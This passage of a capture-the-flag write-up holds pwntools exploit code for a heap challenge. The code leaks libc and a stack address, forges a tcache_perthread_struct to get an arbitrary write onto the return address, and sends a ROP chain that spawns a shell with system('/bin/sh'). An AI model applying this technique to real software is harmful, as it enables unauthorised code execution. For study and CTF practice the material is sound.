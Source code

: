 We ignore the **Send All Taunts** option as it isn't used.

```python
p.sendlineafter(b'> ', b'A' * 0x10)             # send name 16 bytes
create_taunt(b'yes', b'no')                     # create a taunt
set_super_taunt(0, b'A'*0x88)                   # set the super taunt

p.recvuntil(b'A'*0x88)
leak = u64(p.recv(6) + b'\0\0')
libc.address = leak - libc.sym['puts']
log.success(f'LIBC Base: 0x{libc.address:x}')

payload = b'A' * 4                              # offset to first entry
payload += b'\x10\x10'                          # brute 4th-last bit as a `1`
leak = change_user(payload)
leak = leak.split(b'A' * 0x10)[1]
leak += b'\0' * 2
leak = u64(leak)
log.success(f'Leak: 0x{leak:x}')
```

## Writing a ropchain to the stack

Then from there it's simple - just find the location of the return address relative to our leak, overwrite a head of the `tcache_perthread_struct` bins with the location, and then create a taunt with the description of that chunk size and write the ropchain! Don't forget to account for stack alignment.

```python
# ... now free tcache
remove_taunt(0)

# fake tcache!
# tcache is size 0x290
# so we need to input 0x280 data
ret_addr = leak - 0x18
log.info(f'Writing to 0x{ret_addr:x}')

tcache_fake = p16(0) * 12               # pad it out...
tcache_fake += p16(1)                   # 0xe0 bin...
tcache_fake += p16(0) * (64-12-1)       # rest of bins
tcache_fake += p64(0) * 12              # get to nice size
tcache_fake += p64(ret_addr)            # overwrite 0xe0 bin...!
tcache_fake = tcache_fake.ljust(0x280-1, b'\x00') # -1 for newline...

create_taunt(b'dontcare', tcache_fake)  # works!

# now to use arb write?
# have to use the 0xe0 bin!
rop = ROP(libc)

rop.raw(libc.address + 0x22679)
rop.system(next(libc.search(b'/bin/sh\0')))

payload = rop.chain()
payload = payload.ljust(0xd0, b'A')     # pad so it uses the 0xe0 bin

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'target: ', b'nomatter')
pause()
p.sendlineafter(b'Taunt: ', payload)

p.interactive()
```
